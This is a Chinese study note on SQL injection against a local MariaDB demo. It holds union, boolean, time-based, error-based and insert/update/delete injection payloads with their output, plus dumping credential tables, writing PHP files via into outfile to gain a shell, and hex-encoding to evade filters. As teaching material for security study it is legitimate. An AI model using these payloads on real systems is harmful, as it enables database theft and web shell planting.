


SQL注入-学习笔记（一）
SQL注入核心：
1：寻找注入点 （提前闭合sql语句）
2：利用注入点，配合一些手段，达到获取敏感数据的目的
3：增删改查均可以注入
高阶使用，需要想办法绕过安全机制探测注入点和获取数据
联合注入->获取数据库-库名、用户名、版本、表名、列名
union select 1,1,1,1 判断表字段个数
- 直到不报错（different number of columns）即能判断个数
MariaDB [demo]> select * from admin union select 1;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
MariaDB [demo]> select * from admin union select 1,1;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
MariaDB [demo]> select * from admin union select 1,1,1;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
MariaDB [demo]> select * from admin union select 1,1,1,1;
+------+---------+----------+-------------+
| id | name | password | commint_new |
+------+---------+----------+-------------+
| 1 | admin | 123456 | NULL |
+------+---------+----------+-------------+union select 1,1,1 version() 查数据库版本
- 系统函数version() 用于查询当前数据库版本
MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,version();
+------+------+----------+-------------------+
| id | name | password | commint_new |
+------+------+----------+-------------------+
| 1 | 1 | 1 | 10.3.17-MariaDB-1 |
+------+------+----------+-------------------+union select database() 查询数据库名
- 系统函数database() 用于查询当前所使用的数据库名
MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,database();
+------+------+----------+-------------+
| id | name | password | commint_new |
+------+------+----------+-------------+
| 1 | 1 | 1 | demo |
+------+------+----------+-------------+union select user() 查询当前用户名
- 系统函数user() 用于查询当前用户名
MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,database();
+------+------+----------+-------------+
| id | name | password | commint_new |
+------+------+----------+-------------+
| 1 | 1 | 1 | demo |
+------+------+----------+-------------+使用系统表information_schema.TABLES 查询当前库的所有表名
- 系统表：information_schema.TABLES
- 字段名：TABLE_NAME, TABLE_SCHEMA
union select 1,1,TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database()
MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,table_name from information_schema.TABLES where TABLE_SCHEMA=database();
+------+------+----------+-------------+
| id | name | password | commint_new |
+------+------+----------+-------------+
| 1 | 1 | 1 | admin1 |
| 1 | 1 | 1 | admin |
+------+------+----------+-------------+
MariaDB [demo]> show tables;
+----------------+
| Tables_in_demo |
+----------------+
| admin |
| admin1 |
+----------------+使用系统表information_schema.COLUMNS 查询列名
- 系统表： information_schema.COLUMNS
- 字段名： COLUMN_NAME
union select 1,1,1,COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='admin'
MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='admin'; --admin为前面获取到的数表名
+------+------+----------+-------------+
| id | name | password | commint_new |
+------+------+----------+-------------+
| 1 | 1 | 1 | id |
| 1 | 1 | 1 | name |
| 1 | 1 | 1 | password |
| 1 | 1 | 1 | commint_new |
+------+------+----------+-------------+
MariaDB [demo]> desc admin;
+-------------+-----------+------+-----+---------+-------+
| Field | Type | Null | Key | Default | Extra |
+-------------+-----------+------+-----+---------+-------+
| id | int(11) | YES | | NULL | |
| name | char(32) | YES | | NULL | |
| password | char(32) | YES | | NULL | |
| commint_new | char(255) | YES | | NULL | |
+-------------+-----------+------+-----+---------+-------+
最终查出所有字段及表数据
MariaDB [demo]> select * from admin where 1=2;
Empty set (0.001 sec)
MariaDB [demo]> select * from admin where 1=2 union select id,name,password,commint_new from admin;
+------+---------+----------+-------------+
| id | name | password | commint_new |
+------+---------+----------+-------------+
| 1 | admin | 123456 | NULL |
| 4 | abc | 123 | NULL |
| 2 | wang | s123 | NULL |
| 3 | li | s123 | NULL |
| 2 | admin2 | 1234567 | asdf |
| 3 | admin3 | 1234567 | wer |
| 4 | admin4 | 1234567 | asdf |
| 5 | admin5 | 1234567 | awerq |
| 6 | admin6 | 1234567 | afh |
| 3 | admin3 | 1234567 | werwer |
| 7 | admin7 | 1234567 | wers |
| 9 | admin9 | 1234567 | asfe |
| 8 | admin8 | 1234567 | swer |
| 10 | admin10 | 1234567 | fgjhgk |
| 11 | admin11 | 1234567 | werer |
| 12 | admin12 | 1234567 | wooij |
| 11 | admin12 | 1234567 | uihnkn |
| 15 | admin15 | 1234567 | werwer |
| 16 | admin16 | 1234567 | 1235 |
| 11 | admin | 1234567 | zxcvdfg |
| 9 | admin9 | 1234567 | hjyutrrty |
| 17 | admin17 | 1234567 | wqerwe |
+------+---------+----------+-------------+注:limit 0,1 的巧妙运用，用来获取数据

联合注入->导出文件、getshell
联合注入和文件写入的结合
导出数据到外部文件
- 一般数据库是用非root用户启的，路径会有局限性
- 导出文件，默认在mysql的datadir下肯定有写权限 ps -elf|grep mysql 回显中查看 –datadir=/var/lib/mysql
- 关键字 sql语句 + into outfile ‘路径/文件名.文件名后缀’
联合注入实现数据导出到自定义文件(my.txt或my.sql)
- 系统关键字
into outfile('路径+文件') - 文件所在目录有写权限
MariaDB [demo]> select 'This php code' into outfile './1.txt'; Query OK, 1 row affected (0.001 sec) root@localhost:/var/lib/mysql# cat 1.txt This php code MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='admin' into outfile '/root/tmp/my.txt'; ERROR 1 (HY000): Can't create/write to file '/root/tmp/my.txt' (Errcode: 13 "Permission denied") MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='admin' into outfile './my.txt'; Query OK, 4 rows affected (0.001 sec) root@localhost: root@localhost:/var/lib/mysql# cat my.txt 1 1 1 id 1 1 1 name 1 1 1 password 1 1 1 commint_new
联合注入实现代码写脚本格式文件
select '<?php phpinfo() ?>' into outfile './index.php'- 导出数据从数据库通过命令写文件，以实现脚本落地，达到getshell
MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,'<?php phpinfo()?>' into outfile './index.php';
root@localhost:/var/lib/mysql# cat index.php
1 1 1 <?php phpinfo()?>- 高阶使用
- 将php代码转成16进制绕过安全机制
<?php phpinfo()?>==> 3c3f70687020706870696e666f28293f3e
MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,0x3c3f70687020706870696e666f28293f3e into outfile './index.php';
Query OK, 1 row affected (0.001 sec)
root@localhost:/var/lib/mysql# cat index.php
1 1 1 <?php phpinfo()?>
#数据库自己将hex进制转换为ascii码
MariaDB [demo]> select 0x3c3f70687020706870696e666f28293f3e;
+--------------------------------------+
| 0x3c3f70687020706870696e666f28293f3e |
+--------------------------------------+
| <?php phpinfo()?> |
+--------------------------------------+联合注入实现数据写成脚本格式文件，并导出到web服务可访问的目录，实现浏览器读取数据
MariaDB [demo]> select * from admin where 1=2 union select id,name,password,commint_new from admin into outfile './my.php';联合注入->读取文件
联合注入和文件读取的结合
- 系统函数
load_file() - 文件所在目录有读权限
- 读取文件函数
load_file('./index.php') - 读取文件转成hex绕过一些安全机制
load_file('./index.php')load_file(0x2e2f696e6465782e706870)
MariaDB [demo]> select * from admin where 1=2 union select 1,1,1,load_file('./index.php') from information_schema.COLUMNS where TABLE_NAME='admin';
+------+------+----------+--------------------------+
| id | name | password | commint_new |
+------+------+----------+--------------------------+
| 1 | 1 | 1 | <?php phpinfo()?>
|
+------+------+----------+--------------------------+
MariaDB [demo]> select load_file(0x2e2f696e6465782e706870);
+-------------------------------------+
| load_file(0x2e2f696e6465782e706870) |
+-------------------------------------+
| <?php phpinfo()?>
|
+-------------------------------------+联合注入->和注释符的联合运用
- mysql注释符有：
#: 在html语言里有#，所以在web端需要将#转编码让浏览器在解析html时不认为是锚点 固要将# 转码为%23 (URL编码\ 见下图- --
- //
- /**/


布尔注入
常用payload
1' or 1=1
1 or '1' = '1
1 or true
' or !false
1 -- asdfasdf
#mid(str,start,length): 字符串截取函数 start>=1, length <= 字符串长度
MariaDB [demo]> select mid('12345',1,2);
+------------------+
| mid('12345',1,2) |
+------------------+
| 12 |
+------------------+
#ord(): ASCII码转换函数ord(**)
MariaDB [demo]> select ord('A');
+----------+
| ord('A') |
+----------+
| 65 |
+----------+
#length(): 长度测量
select length('12345');
+-----------------+
| length('12345') |
+-----------------+
| 5 |
+-----------------+
#version() 数据库版本查看
#databse() 数据库名查看
#user() 数据库用户查看
#show databases; 当前数据库仓储中有什么数据库
#select count(SCHEMA_NAME) from information_schema.schemata; 获取当前数据仓储中有多少数据库
#1' and length(database()) >=4 当返回True时，可以获取数据库名长度
MariaDB [demo]> select * from admin where id=1 and length(database()) >=5;
Empty set (0.000 sec)
MariaDB [demo]> select * from admin where id=1 and length(database()) >=4;
+------+-------+----------+-------------+
| id | name | password | commint_new |
+------+-------+----------+-------------+
| 1 | admin | 123456 | NULL |
+------+-------+----------+-------------+
#1' and mid(database(),1,1) = 'd' 用来遍历数据库名
MariaDB [demo]> select * from admin where id=1 and mid(database(),1,1) = 'a';
Empty set (0.001 sec)
MariaDB [demo]> select * from admin where id=1 and mid(database(),1,1) = 'b';
Empty set (0.000 sec)
MariaDB [demo]> select * from admin where id=1 and mid(database(),1,1) = 'c';
Empty set (0.000 sec)
MariaDB [demo]> select * from admin where id=1 and mid(database(),1,1) = 'd';
+------+-------+----------+-------------+
| id | name | password | commint_new |
+------+-------+----------+-------------+
| 1 | admin | 123456 | NULL |
+------+-------+----------+-------------+
MariaDB [demo]> select * from admin where id=1 and ord(mid(database(),1,1)) >=101; ---枚举字符可以转成ascii码用于判断
Empty set (0.000 sec)
MariaDB [demo]> select * from admin where id=1 and ord(mid(database(),1,1)) >=100;
+------+-------+----------+-------------+
| id | name | password | commint_new |
+------+-------+----------+-------------+
| 1 | admin | 123456 | NULL |
+------+-------+----------+-------------+
时间注入
常用payload
sleep(x) x是秒数
sleep(if(true,x,0)) 如果表达式为真，则休眠x秒，
#判断数据库个数
MariaDB [demo]> select * from admin where id =1 and sleep(if((select count(schema_name) from information_schema.schemata) =1,5,0));
Empty set (0.001 sec)
MariaDB [demo]> select * from admin where id =1 and sleep(if((select count(schema_name) from information_schema.schemata) =5,5,0)); --如果数据库数目等于1，则休眠5秒
Empty set (5.001 sec)mysql数据库BUG注入
#利用数据库的BUG（即，count(), rand(),group by 连用时）进行利用，看报错信息。报错信息里携带了敏感数据
#mmysql有个bug，在表数据条目大于3情况下会返回字段值,小于3条时会返回表记录。早期版本，新版本已修复，老版本任然好用
- 表记录小于3条时：
MariaDB [demo]> select concat(floor(rand(0)*2),"+++++++") as xx,count(1) from admin1 group by xx;
+----------+----------+
| xx | count(1) |
+----------+----------+
| 1+++++++ | 1 |
+----------+----------+
表记录大于3条时：
MariaDB [demo]> select concat(floor(rand(0)*2),"+++++++") as xx,count(1) from admin group by xx;
ERROR 1062 (23000): Duplicate entry '1+++++++' for key 'group_key'
此时可以加以利用
(爆库)爆出数据库名，用户名等
MariaDB [demo]> select concat(floor(rand(0)*2),database()) as xx,count(1) from admin1 group by xx;
ERROR 1062 (23000): Duplicate entry '1demo' for key 'group_key'
MariaDB [demo]> select concat(floor(rand(0)*2),user()) as xx,count(1) from admin1 group by xx;
ERROR 1062 (23000): Duplicate entry '1root@' for key 'group_key'
(爆表)爆当前数据库所有表名（admin1）
MariaDB [demo]> select concat(floor(rand(0)*3),(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1)) as xx,count(1) from admin group by xx;
ERROR 1062 (23000): Duplicate entry '1admin1' for key 'group_key'
(爆表的字段)爆当前数据库表的列名
MariaDB [demo]> select concat(floor(rand(0)*3),(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='admin' limit 0,1)) as xx,count(1) from admin group by xx;
ERROR 1062 (23000): Duplicate entry '1id' for key 'group_key'
（爆表记录）
MariaDB [demo]> select concat(floor(rand(0)*2),(select concat('|',id,'|',name,"|",password) from admin limit 0,1)) as xx,count(1) from admin group by xx;
ERROR 1062 (23000): Duplicate entry '1|1|admin|123456' for key 'group_key'
mysql注入函数报错
- updatxml
UPDATEXML (XML_document, XPath_string, new_value);
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
第三个参数：new_value，String格式，替换查找到的符合条件的数据
MariaDB [demo]> select * from admin where id =1 and updatexml(1,conact(0x7c,(select user()),1),1);
ERROR 1305 (42000): FUNCTION demo.conact does not exist- extractvalue
extractvalue(目标xml文档，xml路径)
MariaDB [demo]> select * from admin where id =1 and updatexml(1,concat(0x7c,(select user()),1),1);
ERROR 1105 (HY000): XPATH syntax error: '|root@1'添加型注入
- 一样都是提前闭合，改变sql语句含义，将sql payload结果 insert、update进数据库，再查询获得注入结果
MariaDB [demo]> select * from admin1;
+------+------+----------+
| id | name | password |
+------+------+----------+
| 1 | aaa | 123456 |
+------+------+----------+
1 row in set (0.001 sec)
#场景一
MariaDB [demo]> insert into admin1 values(2,(select user()),(select database()));
Query OK, 1 row affected (0.369 sec)
MariaDB [demo]> select * from admin1;
+------+-------+----------+
| id | name | password |
+------+-------+----------+
| 1 | aaa | 123456 |
| 2 | root@ | demo |
+------+-------+----------+
#场景二
insert into admin1 values(2,'demo',( select concat(1,column_name,1) from information_schema.columns where table_name='admin' limit 0,1));
insert into admin1 values(2,'demo',( select concat(1,column_name,1) from information_schema.columns where table_name='admin' limit 1,1));
insert into admin1 values(2,'demo',( select concat(1,column_name,1) from information_schema.columns where table_name='admin' limit 2,1));
insert into admin1 values(2,'demo',( select concat(1,column_name,1) from information_schema.columns where table_name='admin' limit 3,1));
MariaDB [demo]> select * from admin1;
+------+-------+---------------+
| id | name | password |
+------+-------+---------------+
| 1 | aaa | 123456 |
| 2 | root@ | demo |
| 2 | demo | 1id1 |
| 2 | demo | 1name1 |
| 2 | demo | 1password1 |
| 2 | demo | 1commint_new1 |
+------+-------+---------------+
#场景三
insert into admin1 values(2,'demo',( select concat(load_file('./index.php'))));
MariaDB [demo]> insert into admin1 values(2,'demo',( select concat(load_file('./index.php'))));
Query OK, 1 row affected (0.001 sec)
MariaDB [demo]> select * from admin1;
+------+------+--------------------+
| id | name | password |
+------+------+--------------------+
| 1 | aaa | 123456 |
| 2 | demo | <?php phpinfo()?>
|
+------+------+--------------------+
【<?php phpinfo()?>】等于 0x2e2f696e6465782e706870
MariaDB [demo]> insert into admin1 values(2,'demo',( select concat(load_file(0x2e2f696e6465782e706870))));
Query OK, 1 row affected (0.004 sec)
MariaDB [demo]> select * from admin1;
+------+------+--------------------+
| id | name | password |
+------+------+--------------------+
| 1 | aaa | 123456 |
| 2 | demo | <?php phpinfo()?>
|
+------+------+--------------------+删除型注入
- delete语句特征，只能以and 布尔型值作为注入
MariaDB [demo]> delete from admin1 where id=2 and sleep(if((select database() = 'demo'),5,0));
Query OK, 0 rows affected (5.002 sec)
注意，只有当数据库中有id=2这条记录，sleep才能工作。否则如下。sleep函数不工作
MariaDB [demo]> delete from admin1 where id=3 and sleep( if((select database()='demo'),5,0));
Query OK, 0 rows affected (0.001 sec)修改型注入
- update语句特征，可以从修改值的方式注入，或条件的方式注入
例如：
POST Head：http://127.0.0.1/aaa/update.php?act=update&id=17
POST data：name=a&text=b
封装的SQL语句为: update admin1 set name='a' ,text='b' where id=17
此时用延时注入，判断注入点：
MariaDB [demo]> update admin1 set password='b';
Query OK, 0 rows affected (0.001 sec)
Rows matched: 2 Changed: 0 Warnings: 0
MariaDB [demo]> update admin1 set password='b' where sleep(5);
Query OK, 0 rows affected (10.001 sec)
Rows matched: 0 Changed: 0 Warnings: 0